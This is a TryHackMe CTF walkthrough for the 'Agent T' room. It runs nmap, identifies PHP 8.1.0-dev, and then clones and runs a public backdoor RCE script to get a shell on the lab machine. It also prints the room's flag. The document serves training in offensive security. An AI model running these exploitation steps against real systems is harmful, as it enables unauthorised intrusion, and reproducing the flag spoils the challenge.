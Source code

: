 ```yaml
---
title: Agent T - TryHackMe Walkthrough
date: 2024-06-28
categories: [Walkthrough]
tags: [TryHackMe, CTF]
---
```


![alt text](https://miro.medium.com/v2/resize:fit:640/1*Fxs2XWqwlh4GBhrTCMDx_Q.png)

**URL**: [Agent T - TryHackMe](https://tryhackme.com/r/room/agentt)

**Target IP**: 10.10.25.62

## Description

Agent T uncovered this website, which looks innocent enough, but something seems off about how the server responds...

After deploying the vulnerable machine attached to this task, please wait a couple of minutes for it to respond.

**Task**: Find the flag.

---

## Step 1: Scan the Target IP using Nmap

We start by scanning the target IP to gather information about open ports and services. We'll use the `-A` option to enable OS detection, version detection, script scanning, and traceroute.

```bash
┌──(root㉿neo)-[~]
└─# nmap -A 10.10.25.62
Starting Nmap 7.94SVN ( https://nmap.org ) at 2024-06-28 10:13 IST
Stats: 0:03:32 elapsed; 0 hosts completed (1 up), 1 undergoing SYN Stealth Scan
Nmap scan report for 10.10.25.62
Host is up (0.17s latency).
Not shown: 999 closed tcp ports (reset)
PORT   STATE    SERVICE VERSION
80/tcp filtered http
Too many fingerprints match this host to give specific OS details
Network Distance: 5 hops

TRACEROUTE (using port 995/tcp)
HOP RTT       ADDRESS
1   39.72 ms  10.17.0.1
2   ... 4
5   161.19 ms 10.10.25.62

OS and Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 689.75 seconds
```

**Analysis**:
- Port 80 is filtered, indicating it is likely protected by a firewall or similar mechanism.
- The scan shows the host is up and accessible.

## Step 2: Explore Port 80

Next, we navigate to the webpage hosted on port 80 at ``http://10.10.25.62/``.

![alt text](https://github.com/f141ne0/Cybersecurity-Journey/blob/main/CTF/Writeups/TryHackMe/Agent-T/image.png?raw=true)

The webpage looks normal with nothing special. To gather more information about the web technologies used, we utilize the Wappalyzer browser extension.

![alt text](https://github.com/f141ne0/Cybersecurity-Journey/blob/main/CTF/Writeups/TryHackMe/Agent-T/image-1.png?raw=true)

**Analysis**:
- Wappalyzer reveals the PHP version used by the server is 8.1.0. 

## Step 3: Search for Exploits

We search for any known exploits for PHP version 8.1.0. 

![alt text](https://github.com/f141ne0/Cybersecurity-Journey/blob/main/CTF/Writeups/TryHackMe/Agent-T/image-3.png?raw=true)

During our search, we find a GitHub repository that contains an exploit for PHP 8.1.0-dev remote code execution.

![alt text](https://github.com/f141ne0/Cybersecurity-Journey/blob/main/CTF/Writeups/TryHackMe/Agent-T/image-4.png?raw=true)

**URL**: [PHP 8.1.0-dev Backdoor Remote Code Execution](https://github.com/flast101/php-8.1.0-dev-backdoor-rce.git)

## Step 4: Clone the Repository

We clone the repository to our local machine to use the exploit.

```bash
┌──(root㉿neo)-[~]
└─# git clone https://github.com/flast101/php-8.1.0-dev-backdoor-rce.git
Cloning into 'php-8.1.0-dev-backdoor-rce'...
remote: Enumerating objects: 241, done.
remote: Counting objects: 100% (239/239), done.
remote: Compressing objects: 100% (113/113), done.
remote: Total 241 (delta 128), reused 232 (delta 124), pack-reused 2
Receiving objects: 100% (241/241), 1.66 MiB | 1.44 MiB/s, done.
Resolving deltas: 100% (128/128), done.
                                                                                                                                                                                              
┌──(root㉿neo)-[~]
└─# cd php-8.1.0-dev-backdoor-rce 
                                                                                                                                                                                              
┌──(root㉿neo)-[~/php-8.1.0-dev-backdoor-rce]
└─# ls
backdoor_php_8.1.0-dev.py  docs  README.md  revshell_php_8.1.0-dev.py
```

## Step 5: Run the Exploit

We execute the Python script `backdoor_php_8.1.0-dev.py` from the cloned repository.

```bash
┌──(root㉿neo)-[~/php-8.1.0-dev-backdoor-rce]
└─# python backdoor_php_8.1.0-dev.py                                     
Enter the host url:
http://10.10.25.62/

Interactive shell is opened on http://10.10.25.62/ 
Can't access tty; job control turned off.
$ ls
404.html
blank.html
css
gulpfile.js
img
index.php
js
package-lock.json
package.json
scss
vendor
```

**Analysis**:
- The exploit successfully opens an interactive shell on the target server.

## Step 6: Explore the File System

We begin exploring the file system to locate any sensitive files or the flag.

```bash
$ cd /home

$ ls
404.html
blank.html
css
gulpfile.js
img
index.php
js
package-lock.json
package.json
scss
vendor

$ cd /root

$ ls
404.html
blank.html
css
gulpfile.js
img
index.php
js
package-lock.json
package.json
scss
vendor
```

No significant files found so far. Let's use the `find` command to search for the flag.

## Step 7: Find the Flag

Using the `find` command to search for files named `flag.txt`.

```bash
$ find / -name flag.txt 2>/dev/null
/flag.txt

$ cat /flag.txt
flag{4127d0530abf16d6d23973e3df8dbecb}
```

**Flag Found**:
- `flag{4127d0530abf16d6d23973e3df8dbecb}`
